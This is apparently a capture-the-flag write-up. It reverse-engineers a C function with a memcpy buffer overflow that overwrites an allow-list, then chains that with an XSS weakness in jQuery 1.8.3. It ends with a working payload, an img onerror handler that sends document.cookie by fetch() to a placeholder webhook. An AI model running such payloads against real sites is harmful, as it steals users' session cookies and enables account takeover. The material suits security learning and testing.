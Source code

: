     Since this function is quite long to understand we can bypass the static analysis of func_11 by doing some trials on the system.
    
      - If we set tabID = ‘tab-wr’ → the page redirects to tab-wr;
      - If we set tabID = ‘tab-it’ → the page redirects to tab-it;
      - If we set tabID = ‘xxxxxxx’ → the page redirects to tab-it;
    
    So, by doing this simple tests we can understand how the func_11 (which is the core of func_3) works → if the buffer contains the word in the array to check (array[i]) the function returns 1, otherwise 0. 
    
    In other words, func_11 is implementing a substring search.
    
    Overall, func_3 can be written as:

    ```C
      char buffer[190] = {0};
      char array[2][10] = {"tab-wr", "tab-it"};
      
      memcpy(buffer, tabID, strlen(tabID);
      for(int i=0;i<2;i++){
        if(sub_string_find(buffer, array[i]) == 1)
          return 1;
      }
      return 0;
    ```

### Exploit

The first thing to notice is that memcpy is vulnerable to buffer overflow because the third parameter is the size of the user input and not the one of the destination buffer. So, we can attack it by adding some other character so that array is filled with our input. In this way we can easily bypass sub_string_found.

  ```python
    tabID = "tab-en" + "a"*184 + "a"*10
  ```

The other vulnerability as said before is XSS in Jquery 1.8.3.

  ```python
    tabID = "<img src=x onerror='alert(1)'/>"
    tabID += 'a'*(190-len(tabID)) + 'a'*10
  ```
  An alert(1) is prompted.

  Eventually, the final exploit is:

  ```python
    tabID = "<img src/onerror=fetch('[YOUR_WEBHOOK]?p='+document.cookie)/>"
    tabID += 'a'*(190-len(tabID)) + 'a'*10
  ```







